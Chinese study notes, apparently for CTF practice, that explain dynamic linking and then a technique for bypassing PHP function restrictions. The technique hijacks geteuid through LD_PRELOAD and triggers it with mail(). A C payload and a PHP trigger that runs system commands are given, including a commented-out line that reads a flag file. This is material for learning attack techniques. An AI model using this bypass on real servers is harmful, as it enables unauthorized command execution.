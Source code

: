 ### 程序的链接

- 静态链接：在程序运行之前先将各个目标模块以及所需要的库函数链接成一个完整的可执行程序，之后不再拆开。
- 装入时动态链接：源程序编译后所得到的一组目标模块，在装入内存时，边装入边链接。
- 运行时动态链接：原程序编译后得到的目标模块，在程序执行过程中需要用到时才对它进行链接。

对于动态链接来说，需要一个动态链接库，其作用在于当动态库中的函数发生变化对于可执行程序来说时透明的，可执行程序无需重新编译，方便程序的发布/维护/更新。

### LD_PRELOAD

LD_PRELOAD 是一个环境变量，它指定了在程序运行前要加载的动态链接库。

LD_PRELOAD 可以用来劫持系统调用，从而实现对程序的控制。

### 绕过条件

- 能上传自己的。so 文件
- 能控制环境变量（如 LD_PRELOAD) 的值，比如 putenv() 函数且未被禁止
- 存在可以控制 PHP 启动外部程序的函数并能执行，比如 mail()、imap_mail()、mb_send_mail()、error_log() 等

### 可利用函数

#### mail（内置函数）

mail 函数->调用/user/bin/sendmail->调用动态链接库 geteuid 函数

给 geteuid 重新赋值

```c
#include <stdio.h>
#include <string.h>
void payload() {
    system("echo success");
    // system("cat /flag > /tmp/flag");
}
int geteuid() {
    unsetenv("LD_PRELOAD");
    payload();
}
```

编译为`1.so`文件

上传一个`1.php`

```php
<?php
putenv("LD_PRELOAD=./1.so");
mail("", "", "", "");
?>
```

上传并访问`1.php`即可执行

##### 把要执行的命令赋值到环境变量直接读取命令
